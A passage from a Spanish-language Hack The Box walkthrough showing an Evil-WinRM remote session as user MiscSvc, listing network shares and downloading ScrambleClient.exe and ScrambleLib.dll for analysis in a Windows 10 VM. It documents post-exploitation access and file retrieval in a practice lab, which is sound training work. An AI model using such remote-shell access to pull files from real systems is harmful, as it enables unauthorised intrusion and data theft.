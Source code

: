 Podemos listarlos en nuestra sesión como el **usuario MiscSvc** (en mi caso, me quedé con la sesión de **Evil-WinRM**):
```batch
*Evil-WinRM* PS C:\> cd Shares
*Evil-WinRM* PS C:\Shares> dir

    Directory: C:\Shares

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        11/1/2021   3:21 PM                HR
d-----        11/3/2021   7:32 PM                IT
d-----        11/1/2021   3:21 PM                Production
d-----        11/4/2021  10:23 PM                Public
d-----        11/3/2021   7:33 PM                Sales
```

Bien, podemos ir listando uno por uno, pero donde está lo interesante, es en el directorio `IT/Apps/Sales Order Client`:
```batch
*Evil-WinRM* PS C:\Shares\IT\Apps\Sales Order Client> dir

    Directory: C:\Shares\IT\Apps\Sales Order Client

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/5/2021   8:52 PM          86528 ScrambleClient.exe
-a----        11/5/2021   8:52 PM          19456 ScrambleLib.dll
```

Vamos a descargar ese **binario y el archivo DLL**:
```batch
*Evil-WinRM* PS C:\Shares\IT\Apps\Sales Order Client> download ScrambleClient.exe
                                        
Info: Downloading C:\Shares\IT\Apps\Sales Order Client\ScrambleClient.exe to ScrambleClient.exe
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Shares\IT\Apps\Sales Order Client> download ScrambleLib.dll
                                        
Info: Downloading C:\Shares\IT\Apps\Sales Order Client\ScrambleLib.dll to ScrambleLib.dll
                                        
Info: Download successful!
```

Una vez descargados, vamos a mandarlos a una **máquina virtual Windows 10** para ver cómo funcionan. Puedes hacerlo levantando un servidor en **Python**.

-----------
**IMPORTANTE**:

Te recomiendo que mandes la **VPN de HTB**, la habilites con el **cliente de OpenVPN** y configures el dominio y el servidor del dominio en el `/etc/hosts` del **Windows 10**, para que funcione correctamente el binario.

----------
